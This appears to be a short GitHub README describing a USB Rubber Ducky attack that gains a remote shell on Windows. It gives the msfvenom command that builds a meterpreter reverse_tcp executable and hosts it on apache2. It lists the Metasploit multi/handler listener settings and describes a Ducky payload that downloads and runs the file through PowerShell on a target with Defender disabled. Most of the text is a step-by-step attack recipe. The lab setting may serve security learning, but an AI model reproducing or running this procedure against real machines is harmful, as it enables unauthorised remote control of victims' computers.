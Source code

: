 # Ducky_reverse_tcp_shell
Uses the metasploit framework and the USB-RubberDucky to create a reverse- shell (without Bypass)

AttackerMachine: Kali Linux (2022.1)connected to the targets Network

TargetMachine: Windows 10 Home, Windows Defender: realtime Monitoring off, admin privileges 


1. Create a payload to be executes on the target machine.

msfvenom:

payload: windows/meterpreter/reverse_tcp

filetype: .exe (for windows)

Directory: /var/www/html/yourfile.exe 

--> sets the directory of the malicious file to the html directory of my machine. To start this small server ill use apache2. 

Command: sudo service apache2 start

Command2: msfvenom -p windows/meterpreter/reverse_tcp LHOST your.ip.addr.ess LPORT 4444 -f exe -o /var/www/html/Yourfile.exe

2. Setup the listening Machine(Attacker)

msfconsole

msf6: use exploit/multi/handler

msf6: set payload windows/meterpreter/reverse_tcp

msf6: set LHOST and LPORT

msf6: exploit

3. Ducky Setup:

Encode and flash the DuckyCode file on the Ducky

isnert the USB-RubberDucky

--> This payload downloads and executes the hosted .exe file via Powershell. With low security settings the malicious payload should be executed by now -> Meterpreter Session should open in the msfconsole 

Mission complete

